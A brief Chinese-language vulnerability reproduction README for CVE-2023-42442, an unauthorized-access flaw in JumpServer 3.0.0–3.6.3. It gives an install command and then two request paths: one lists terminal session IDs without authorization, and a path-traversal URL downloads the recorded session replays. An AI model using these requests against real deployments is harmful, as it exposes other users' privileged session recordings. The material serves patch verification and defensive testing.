

# CVE-2023-42442

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** JumpServer未授权访问漏洞

## 0x01 简介

Jump Server 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。JumpServer 帮助企业以更安全的方式管控和登录所有类型的资产，实现事前授权、事中监察、事后审计，满足等保合规要求。

## 0x02 影响范围

3.0.0 <= Jump Server <= 3.6.3

## 0x03 环境搭建

在CentOS7系统下执行如下命令即可进行快速安装：

```bash
curl -sSL https://github.com/jumpserver/jumpserver/releases/download/v3.6.0/quick_start.sh | bash
cd /opt/jumpserver-installer-v3.8.1
./jmsctl.sh start
```

## 0x04 漏洞复现

```bash
/api/v1/terminal/sessions/
```



```bash

# 通过/api/v1/terminal/sessions/获取到的会话ID，下载对应的会话回放
/media/xpack/../replay/[date]/[id].cast.gz
# date格式为2023-11-13
# id的值为上一步中获取的id
```

